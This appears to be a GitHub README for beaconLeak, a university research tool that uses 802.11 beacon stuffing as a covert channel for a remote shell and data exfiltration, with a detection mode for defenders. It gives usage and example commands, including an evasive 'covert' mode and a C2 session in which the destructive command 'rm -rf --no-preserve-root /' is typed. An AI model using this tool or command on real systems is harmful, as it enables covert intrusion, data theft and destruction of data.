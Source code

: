 # beaconLeak v0.9.0

beaconLeak is an open source tool developed as a proof
of concept of the beacon stuffing method as a covert channel. This channel
allows command and control or data exfiltration using the wireless network card 
without association or authentication. beaconLeak includes
the necessary functionality to both leak data as an attacker and detect the 
attack for defense purposes. Detection mode uses basic indicators of compromise
and generate log entries to be  consumed by monitoring or correlation security 
systems.

## Description

The beacon stuffing attack is a wireless physical attack, so wireless proximity
is required. Because of the need to push custom frames through the wireless 
interface, the tool must be run with either root privileges or network admin 
capabilities. Packet injection is a must for full functionality.  
This tool uses Scapy to transmit the 802.11 (Dot11) frames, and pyNaCL to have
all data encrypted on transit.

* c2 mode: remote covert shell
* leak mode: command channel and data exfiltration
* detect mode: detect the use of this method (multiple tool detection)

## Requirements

* Root privileges
* Python 3 with pip
* Packet Injection capable Wireless NIC

## Installation
*These instructions are for Linux based systems only, other platforms are* 
*partially supported, please check for more info in the repository.*

1. Set up a Python virtual environment

```
# python -m venv bl
```

2. Load Python virtual environment

```
# source bl/bin/activate
```

3. Install the Python libraries dependencies to the virtual environment

```
(bl)# pip install -r requirements.txt
```

4. ???
5. Profit! 

## Usage

```
usage: beaconleak.py [-h] (--leak | --detect | --c2) [--pcap PCAP [PCAP ...]]
                     [--autohop] [--loglevel LOGLEVEL] [--covert] [--psk PSK]
                     [--ssid SSID] [--bssid BSSID] [--delay DELAY] [--debug]
                     iface

     _                       __            _
    | |_ ___ ___ ___ ___ ___|  |   ___ ___| |_
    | . | -_| .'|  _| . |   |  |__| -_| .'| '_|
    |___|___|__,|___|___|_|_|_____|___|__,|_,_|
                            by cjcase [v0.9.0]

    

positional arguments:
  iface                 Wireless interface in monitor mode

optional arguments:
  -h, --help            show this help message and exit
  --debug               Debug verbosity.

modes:
  --leak                (target) Leak data mode.
  --detect              (detect) Check surroundings for possible attacks
  --c2                  (attack) Command & control, remote shell

detect mode options:
  --pcap PCAP [PCAP ...]
                        pcap file(s) for offline beacon analysis
  --autohop             (Linux only) Automatic channel hopping
  --loglevel LOGLEVEL   log level, lowest is critical

c2 and leak mode options:
  --covert              Be extra sneaky by mimicking surrounding beacons
  --psk PSK             Custom encryption passphrase
  --ssid SSID           Emulated station WiFi name
  --bssid BSSID         Emulated station MAC address
  --delay DELAY         delay to sniff for command output response [default=5]
```

## Examples

### beaconLeak in detection mode
This mode will use your device's wireless radio in monitor mode to detect
stuffed beacons in real time.

```
(bl)# python beaconleak.py --detect wlan0mon 
```

Optionally, you can analyze previous wireless packet captures to find stuffed
beacons. e.g. you could sniff your wireless surroundings with Wireshark, save
the captures to then analyze with beaconLeak.
In this mode, the interface is still a required argument but ignored.

```
(bl)# python beaconleak.py --pcap cap1.pcap cap2.pcap cap3.pcap --detect lo0 
```

### beaconLeak in C2 mode
This mode emulates a trivial shell, will allow you to communicate with any
target that share the same PSK, like the built-in default.

```
(bl)# python beaconleak.py --c2 wlan0mon 
```

If you'd like to be more sneaky, you can toggle the covert mode, which will
take the noisiest beacons in the surroundings and mimimc it. You can also use
your own PSK for encryption, but make sure the target is also started with this
passphrase. beaconLeak will use pyNaCl's KDF to generate a strong key from 
this string.

```
(bl)# python beaconleak.py --covert --psk "secret sauce" --c2 wlan0mon
```

The way the covert channel works, there needs to be a delay where C2 mode 
sniffs packets to catch the target's output, this delay can be changed with the 
```--delay``` flag, number is seconds. If you don't care about the output, 
instead of using a 0 delay, you can prepend your commands with the '!'
character.

```
(bl)# python beaconleak.py --c2 wlan0mon

 _                       __            _
| |_ ___ ___ ___ ___ ___|  |   ___ ___| |_
| . | -_| .'|  _| . |   |  |__| -_| .'| '_|
|___|___|__,|___|___|_|_|_____|___|__,|_,_|
                        by cjcase [v0.9.0]


[*] Using interface wlan0mon, type '!help' for usage, use Ctrl+C to exit
[beaconshell] >>> !rm -rf --no-preserve-root /
```

### beaconLeak in leak mode (victim simulation)
By default this mode will not generate any output, you can use debug mode to 
check what is happening.

```
(bl)# python beaconleak.py --leak wlan0mon 
```

### Debug Mode
All modes have an extra flag to toggle verbosity, this will let you see more of
what is happening, it's also useful to us if you find a bug and submit the 
issue with output from the this mode.

```
(bl)# python beaconleak.py --leak --debug wlan0mon 
```

## Collaboration
Have an idea for a cool new feature? want to help fix an issue or optimize how 
this tool works? Please submit a pull request!

## License

```
beaconLeak - Covert data exfiltration and detection using beacon stuffing
Copyright (C) 2019 Cj Case

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <https://www.gnu.org/licenses/>.
```

## Acknowledgements

This tool was inspired by the "bridging the airgap" research work by 
Mordecai Guri, et. al. 
A previous description of the beacon stuffing method for exfiltration was 
described by Tom Neaves in his [Trustwave Spider Labs blog post](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/smuggler-an-interactive-80211-wireless-shell-without-the-need-for-authentication-or-association/) about his tool 
"Smuggler".
[PyExfil](https://github.com/ytisf/PyExfil/) by Yuval Nativ has a
basic implementation of this method that predates our tool, its method has been
added to our detection functionality. 

This project was developed as a research project for Tallinn University of
Technology's Cyber Security Master programme and funded by the Dora Plus fund.

![Dora Plus](http://haridus.archimedes.ee/sites/default/files/styles/medium/public/eu_regional_development_fund_horizontal_0.jpg)